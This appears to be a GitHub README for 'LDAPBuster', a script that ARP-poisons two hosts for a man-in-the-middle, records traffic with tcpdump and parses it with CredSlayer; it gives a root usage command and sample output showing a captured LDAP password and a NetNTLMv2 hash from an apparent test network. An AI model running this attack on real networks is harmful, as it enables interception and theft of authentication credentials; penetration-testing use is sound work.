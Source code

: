 # LDAPBuster
Script to automate the ARP poisoning and credential harvesting of network devices that utilize LDAP for authentication.

This script started as a way to automated the communication between firewalls and remote access appliances that use AD and LDAP for authentication but expanded to allow the targetting of any two addresses and parse credentials passed between them. 

The script will take two inputs, and start an ARP poison attack on them to allow for a MITM. While this is happening, a capture is started to save all data that is captured during the MITM. This runs until you hit neter, in which the file is then saved, the poison stopped, and CredSlayer is then run on the output file automatically to extract all credentials and hashes available. 

Usage: 
```
sudo python test.py --victim VICTIM --target TARGET --output OUTPUT
```

Output: 

```
LDAP Buster
By: Hann1bl3L3ct3r
Script to target two devices for ARP poisoning to capture authentication information which is saved to a file and parsed with CredSlayer.
Note: Must be run as ROOT
[*] IP forwarding enabled.
[*] Starting tcpdump to capture traffic into test.pcap...
[*] tcpdump started and writing to test.pcap
[*] Starting packet forwarding between victim and target...
[*] Press Enter to stop the capture and begin parse...
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
[*] Starting ARP poisoning...

3239 packets captured
3245 packets received by filter
0 packets dropped by kernel
[*] tcpdump stopped and saved to test.pcap.
[*] Starting Parse...
[*] ARP tables restored.
[*] Running CredSlayer on test.pcap...
[INFO] Processing packets in 'test.pcap'
[LDAP 192.168.1.106:33039 <-> 192.168.1.5:389] [FOUND] credentials found: cn=Test User,cn=Users,dc=TEST,dc=local -- Password#1
[INFO] Interesting things have been found but the CredSLayer wasn't able validate them: 
[LDAP 192.168.1.106:33038 <-> 192.168.1.5:389] [INFO]  name:  -- Administrator::TEST:019cef6365b05c2c:BA19872D0F64B8435D17CF3B95FE1709:010100000000000000030E4D34ABD401E3F54FBC526BD95A000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C0000000000 -- {'version': 'NETNTLMv2'}
[INFO] Processed in 16.095 seconds.
```
